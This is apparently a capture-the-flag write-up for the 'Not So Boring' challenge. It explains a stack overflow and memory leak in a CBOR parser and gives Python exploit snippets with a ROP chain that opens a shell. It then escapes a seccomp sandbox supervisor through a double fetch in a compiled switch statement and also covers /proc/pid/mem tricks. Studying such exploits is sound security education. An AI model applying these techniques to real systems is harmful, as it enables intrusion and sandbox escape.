

# Not So Boring

This challenge was split into two challenges: an *easy* challenge parsing a CBOR input representing an ECSC Team, and a *hard* challenge where you had to escape from a sandbox built around the first program.

The vulnerabilities in the first part where easy to spot and exploit, and earned me a First Blood. The vulnerability in the second part, a double fetch in the evaluation of a `switch` statement, was not that difficult to exploit, but much harder to spot, and made me learn many things while looking for it. Kudos to [voydstack](https://github.com/voydstack) for this amazing challenge!

## Part 1: Boring

The first part of the challenge is to exploit a binary that parses a [CBOR](https://en.wikipedia.org/wiki/CBOR) input reprensenting the composition of Team France at ECSC. I started reversing the binary, but then 45 minutes after the start of the CTF the organizers announced that they had forgotten to include the source code in the handouts, and indeed it was present in the "Not So Boring" handouts. So no need to reverse anymore, we can just read the source code.

### The vulnerabilities

The code is contained in a single file. It parses the CBOR input using `libcbor`, fills in a `team_t` object in the stack frame of `process_input`, then pretty prints the team composition. `process_input` can be called multiple times on different inputs. A team has the following structure:

```c
#define MAX_PLAYERS     10

typedef struct {
    uint64_t  year;
    char      captain[64];
    player_t  players[MAX_PLAYERS];
    size_t    player_count;
} team_t;
```

It contains 10 players, with the following structure:
```c
typedef struct {
    bytestring_t nickname;
    bytestring_t email;
    char        speciality[64];
} player_t;
```

The `specialty` field is a null-terminated string, but the `nickname` and `email` may contain abritray bytes. They are represented using the following structure:

```c
typedef struct {
    size_t len;
    char   buf[256];
} bytestring_t;
```

The first vulnerability I identified is in `validate_email`:

```c
    if ((user_len == 0 || user_len >= sizeof user) &&
        (domain_len == 0 || domain_len >= sizeof domain)) {
        fprintf(stderr, "Error: invalid email format (user or domain too long)\n");
        return -1;
    }
```

There is logical AND (`&&`) instead of OR (`||`). So we can have one of either `user_len` or `domain_len` larger than the size of the buffer it will be copied in. Since those buffer are allocated on the stack, we can perform a stack-based buffer overflow, and then use Return-Oriented Programming to get code execution.
But the binary is compiled as Position-Independent Executable and has stack canaries, so we first need a way to leak the canary and addresses of gadgets.

This is where a second vulnerability will come in handy: in `extract_bytestring`, if the bytestring is larger than 255 bytes, only 255 bytes of it will be copied into the `bytestring_t`, but the original length will be recorded instead of the corrected one:
```c
static int extract_bytestring(cbor_item_t *map, const char *key,
                              bytestring_t *dst)
{
    cbor_item_t *val = find_value(map, key);
    if (!val || !cbor_isa_bytestring(val) || !cbor_bytestring_is_definite(val))
        return -1;

    dst->len = cbor_bytestring_length(val);
    size_t copy = dst->len < sizeof(dst->buf) - 1
                  ? dst->len : sizeof(dst->buf) - 1;
    memcpy(dst->buf, cbor_bytestring_handle(val), copy);
    dst->buf[copy] = '\0';
    return 0;
}
```

And later, when printing a bytestring, an `fwrite` is made with the recorded length, allowing us to leak past the buffer:
```c
static void print_bytefield(const char *label, const char *buf, size_t len)
{
    printf("- %s: ", label);
    fwrite(buf, 1, len, stdout);
    printf("\n");
}

static void print_team(const team_t *team)
{
    puts("Team registration info:\n");
    printf("Year: %lu\n", (unsigned long)team->year);
    printf("Captain: %s\n", team->captain);
    printf("Players: %zu player(s)\n", team->player_count);

    for (size_t i = 0; i < team->player_count; i++) {
        const player_t *p = &team->players[i];
        printf("Player #%zu:\n", i + 1);
        print_bytefield("Nickname", p->nickname.buf, p->nickname.len);
        print_bytefield("Email", p->email.buf, p->email.len);
        print_stringfield("Speciality", p->speciality);
        printf("--------------------------------\n");
    }
    printf("\n");
}
```

### Eploit

To exploit the vulnerability, we first create a team with one "leaker" member who has a very long nickname.
Obviously I'll be the capitain of this Team, and the 9 other team members will be [Dvorhack](https://github.com/Dvorhack):

```python
    data = {
        "year":2026,
        "captain":"mouthon",
        "players": [
            {
                "nickname":b"dvorhack", 
                "email":b"dvorhack@teamfrance.ctf",
                "speciality":"hardware",
            }
        ]*9 + [
            {
                "nickname":b"leaker"+ 3*256*b"A", 
                "email":b"leaker@teamfrance.ctf",
                "speciality":"leak",
            }
        ]
    }
    payload = cbor2.dumps(data)
    sla("composition: ", payload)
```

Since the `team_t` struct is on the stack, when printing this team we'll leak a lost of stuff from the stack.
We can thus get all the leaks we would ever want: canary, PIE, libc, stack, heap...
And we can say we are unhappy with the team composition (who would want to keep a leaker in their team???) and submit a new one.

Actually we only need the canary and libc. With these, we can build a ROP payload in the email of Dvorhack, and open a shell:

```python
    ROP_payload = b"teamfrance.ctf\0"
    ROP_payload += (40 - len(ROP_payload)) * b"A"
    ROP_payload += flat([
        canary,
        0,
        libc.address + POP_RDI,
        binsh(),
        libc.address + POP_RSI,
        0,
        libc.symbols["execv"]
    ])

    data = {
        "year":2026,
        "captain":"mouthon",
        "players": [
            {
                "nickname":b"dvorhack", 
                "email":b"dvorhack@" + ROP_payload,
                "speciality":"hardware",
            }
        ]
    }

    payload = cbor2.dumps(data)
    pause()
    sla("composition: ", payload)
```

This gives us the flag for the first part of the challenge, and a First Blood!

## Part 2: Not So Boring

The second part took me much more time than the first one, because the vulnerability was very well hidden.
The source code of the program has not changed, but a new sandbox was added around it, in the form of a `LD_PRELOAD`-ed libray.
I spent a few hours here and there on this challenge, but was not able to find the vulnerability for quite a long time.

### Code review

The sandbox library code is split accross multiple files.
The entry point is a constructor in `core.c`, which will fork the running program into a supervisor and a child, communicating through two pipes.

The child loads a seccomp profile defined in `seccomp.c`, then returns from the constructor and runs the original `boring` program.
Its seccomp profile prevents it from running any other syscall than `read`, `write`, `pwrite64`, `pread64`, `open`, `openat`, `brk`, `exit` and `exit_group`.
The profile is implemented using `libseccomp`, and the two classical seccomp bypasses (using 32 bits syscalls instead of 64 bits, and syscall numbers bigger than 0x40000000) are not applicable, as we can see while dumping the profile:

```
$ seccomp-tools dump "env LD_PRELOAD=./libsandbox.so ./patched"
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0e 0xc000003e  if (A != ARCH_X86_64) goto 0016
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x0b 0xffffffff  if (A != 0xffffffff) goto 0016
 0005: 0x15 0x09 0x00 0x00000000  if (A == read) goto 0015
 0006: 0x15 0x08 0x00 0x00000001  if (A == write) goto 0015
 0007: 0x15 0x07 0x00 0x00000002  if (A == open) goto 0015
 0008: 0x15 0x06 0x00 0x0000000c  if (A == brk) goto 0015
 0009: 0x15 0x05 0x00 0x00000011  if (A == pread64) goto 0015
 0010: 0x15 0x04 0x00 0x00000012  if (A == pwrite64) goto 0015
 0011: 0x15 0x03 0x00 0x0000003c  if (A == exit) goto 0015
 0012: 0x15 0x02 0x00 0x000000e7  if (A == exit_group) goto 0015
 0013: 0x15 0x01 0x00 0x00000101  if (A == openat) goto 0015
 0014: 0x06 0x00 0x00 0x00030000  return TRAP
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x06 0x00 0x00 0x00000000  return KILL
```

The default action is `TRAP`, which blocks the syscall and sends a `SIGSYS` signal to the program.
A signal handler is defined for this signal, which writes the number of the attempted syscall in a pipe and exits:
```c
// Signal handler for SIGSYS
static void handle_seccomp_violation(int signum, siginfo_t *info, void *ctx) {
    if (signum == SIGSYS && g_error_pipe != -1) {
        int syscall_num = info->si_syscall;
        if (write(g_error_pipe, &syscall_num, sizeof(int)) != sizeof(int)) {
            goto end;
        }
    }
    end:
    _exit(EXIT_FAILURE);
}
```

Because of this seccomp profile, it is not possible anymore to call `execve` and open a shell. And we can not just open-read-write the flag, because it is owned by root and readable only through a `getflag` suid binary.

In addition to the seccomp profile, the sandbox library replaces several libc functions with hooks (see `hooks.c`) that will report the attempted function and its arguments to the supervisor through a shared memory page.

The communication between the supervisor and the child happens through two pipes and a shared memory page.
The supervisor polls these two pipes to handle messages from the client.

The first pipe is the "error pipe", through which syscall numbers of syscalls caught by the seccomp profile are sent. When receiveng data on this pipe, the supervisors calls `print_seccomp_violation`, which logs the number of the syscall that was caught:

```c
void print_seccomp_violation(int syscall_num) {
    char *name = seccomp_syscall_resolve_num_arch(SCMP_ARCH_NATIVE, syscall_num);
    LOG_CRIT("Seccomp violation. Syscall %d (%s) was blocked.", 
            syscall_num, name ? name : "Unknown");
    free(name);
}
```

The second pipe acts as a doorbell to signal that a message has arrived in the shared memory.
The format and handling of these messages is implemented in `ipc.c`.
The messages are sent by the child in the hooks, and are handled by the supervisor in `handle_ipc_command`.
A switch is made on the value of the message "command", which is an enum representing the function that was called by the child.
Most of the commands simply log the name of the function and its arguments, except for `uname` and `getrandom`, which return fake data to the child:

```c
void handle_ipc_command(ipc_message_t *msg) {
    switch (msg->command) {
        case CMD_SYSTEM:
            LOG_CRIT("system('%s') attempted /!\\", msg->data.system.path);
            break;
        case CMD_EXECVE:
            LOG_CRIT("execve('%s') attempted /!\\", msg->data.execve.path);
            break;
        case CMD_OPEN:
            LOG_CRIT("open('%s', %d) attempted /!\\", msg->data.open.path, msg->data.open.flags);
            break;
        case CMD_POPEN:
            LOG_CRIT("popen('%s') attempted /!\\", msg->data.popen.path);
            break;
        case CMD_CHMOD:
            LOG_CRIT("chmod('%s', %d) attempted /!\\", msg->data.chmod.path, msg->data.chmod.mode);
            break;
        
        case CMD_UNAME: {
            // Malwares are using uname to fingerprint the kernel version
            // Let's fool them !!
            struct utsname *u = &msg->data.uname.buf;
            strncpy(u->sysname, "Linux", sizeof(u->sysname) - 1);
            strncpy(u->nodename, "sandbox", sizeof(u->nodename) - 1);
            strncpy(u->release, "5.15.0-sandbox", sizeof(u->release) - 1);
            strncpy(u->version, "#1 SMP Sandbox", sizeof(u->version) - 1);
            strncpy(u->machine, "x86_64", sizeof(u->machine) - 1);
            break;
        }
        case CMD_GETRANDOM: {
            // Ransomwares may use getrandom to generate keys
            // Let's make the randomness deterministic so I can recover my files
            size_t request_len = msg->data.getrandom.buflen;
            size_t max_len = sizeof(msg->data.getrandom.buf);
            if (request_len > max_len) request_len = max_len;

            // Fill with deterministic randomness
            unsigned char *buf = (unsigned char *)(msg->data.getrandom.buf);
            for (size_t i = 0; i < request_len; i++) {
                buf[i] = rand() % 256;
            }
            msg->data.getrandom.buflen = request_len;
            break;
        }
        case CMD_UNLINK: {
            LOG_CRIT("unlink('%s') attempted !", msg->data.unlink.path);
            break;
        }
        default:
            LOG_CRIT("Command not supported. This should never happen!");
            break;
    }
}
```

### Failed attempts

After reading the code, I could not find any vulnerability in it.
If you control the child, you can send arbitrary (and potentially malformed) IPC messages to the supervisor.
But the attack surface is very restricted, and the only "bug" I could find in it is that, if you send a `CMD_SYSTEM` message with a path filling the entire buffer without null byte, you would also log what is after the shared memory (in our case, the header of the lib mmaped right after it), until you encounter a null byte.
A classical issue in shared memory mailbox is double fetch/TOCTOU, where data is validated and then processed while still being in the shared memory and editable by the other part.
But here it did not seem (at first sight) to be an issue, each element was used only once, or a local copy was made (for instance for the `getrandom.buflen`).
Since I could not find any exploitable bug, I thought there was maybe a way to circumvent the problem.

My first idea was to use `pwrite` to write to `/proc/<supervisor_pid>/mem`, and change the code executed by the parent.
Indeed, `open`, `read`, and `write` are allowed, so you can access the `/proc` folder of other processes and get some information from them.
`pread` and `pwrite` take an offset inside a file at which the read or write must be performed, so they can be used to seek at the right address in `/proc/<pid>/mem`.
This worked on my machine (see `attack_pwrite_parent_mem` in the exploit), I was able to open a shell from the parent, but unfortunately this did not work on the remote.
After investigating with the provided VM, I realized that the kernel was hardened to prevent ptracing any other process, and thus writing `/proc/<parent_pid>/mem` was also forbidden.
I did not notice it before, because I had changed the ptrace scope settings on my machine to make debugging exploits easier.
But the time spent developing this method was not lost: I was still able to read some information from `/proc/<pid>/mem`.
For example, I could dump `/proc/self/maps` to make sure that some offsets where the same between my local setup and the server.

I then investigated the other entries in `/proc/<pid>/`, but could not find anything that would allow me to exploit the supervisor.
Then I went back to the seccomp profile, and thought that I could maybe replace the signal handler by another code that would not exit.
I tried it by writing to `/proc/self/mem` (allowed on our own process), but it did not work.
Reading the manual explained to me why:
```
SECCOMP_RET_TRAP
            This value results in the kernel sending a thread-directed SIGSYS signal to the triggering thread.  (The system call is not executed.) 
```
So the syscall is not executed anyway, even if the signal handler properly returns. And in any case, the signal handler could not properly return, because `rt_sigreturn` was not among the allowed syscalls. I looked at write-ups of other CTF challenges using seccomp sandboxes in order to find a bypass that I would not be aware of, but found nothing. But I learned a lot about seccomp, and in particular fell upon this [nice writeup](https://n132.github.io/2022/07/04/S2.html) about a seccomp sandbox using `TRACE` as action, which could be overriden by another seccomp profile with a stricter action. Unfortunately in our case, the only stricter actions than `TRAP` were `KILL_PROCESS` and `KILL_THREAD`. And anyway, the `seccomp` syscall was forbidden.

I also tried to write absurd data to the pipes and shared memory.
In order to do this more easily than with a ROP chain, I modified my previous attempt at hijacking the signal handler, in order to write a shellcode in an unused part of the binary and jump on it.
At this point I cleaned up my exploit to avoid copying over the same code, making dedicated functions for getting the inital leaks, executing a ROP chain, and loading a shellcode.
With this clean setup I could play and try different shellcodes easily.
But again, nothing from the stupid things I tried worked.

### The vulnerability

I could not find anything for quite a long time, and kept coming back to this challenge between my attempts at the other challenges.
And I some point, while reading the supervisor code for the nth time, I thought "Wait, how are switch statements handled again"?
Well, to be efficient, they use the switch variable as an index inside a jump table, to directly jump to the right branch rather than making a comparison for every value. And of course, they must first make sure that the value is within a range of acceptable values.
Let's look at it in a disassembler:



So, the switch value is first compared with 7, the maximum command number, and the `default` case is executed if it is bigger.
If not, then a 32-bit offset is fetched from the switch table at addres `0x22e4` at the index corresponding to the switch value, this offset is added to the address of the switch table itself, and the program jumps to the resulting address.

And here we have a double fetch, right before our eyes!
Indeed, the switch expression is fetched from `rdi`, which is a pointer to the message in shared memory.
It is fetched once for the comparison with 7 at address `0x1771`, then fetched a second time at address `0x178a` for the indexing in the switch table.
This is completely invisible in the source code, where it seems that `msg->command` is dereferenced only once.
So, by racing the supervisor, we can set the command to a small value to make it take the left branch, then modify it before the second fetch, so that we jump to an unexpected location!

### Exploit

The exploit was not the most difficult part.
Thanks to my previously failed attempts at exploiting, I already had a clean code with functions to execute a shellcode.
So I could write a shellcode to craft my message in the shared memory, trigger the doorbel by writing to the notification pipe, then modify the value of the command in a loop.
For this I needed to make a fake switch table entry somewhere.
The shared memory was the perfect location for that, because I could easily write to it, and it was located next to the libsandbox library.
Then I needed to choose where to jump.
Since we jump at a 32 bit offset from the beginning of the switch table, the `boring` binary was too far away, but the other mmaped libraries were accessible.
After some attempts at triggering a one-gadget in the libc, I had the idea to rather jump to another address thanks to a gadget like this one:
```
0x000000000011289d : jmp qword ptr [rdi + 0x6d]
```
With this gadget, I could jump to a fully controlled 64-bit address written in the shared memory (still pointed to by RDI).
So I simply jumped to the main of `boring`, but this time without any sandbox, and made a ROP chain there with the initial vulnerability of `boring`.
The `execv("/bin/sh")` ROP chain did not work however, because the sandbox library was also `LD_PRELOAD`-ed insided the executed `/bin/sh` process.
I could have made the ROP chain a bit longer to unset the `LD_PRELOAD` environment variable, but I just needed the flag, so I executed `/getflag` instead of `/bin/sh`, and got it :-).

The final exploit can be found [here](./exploit.py).
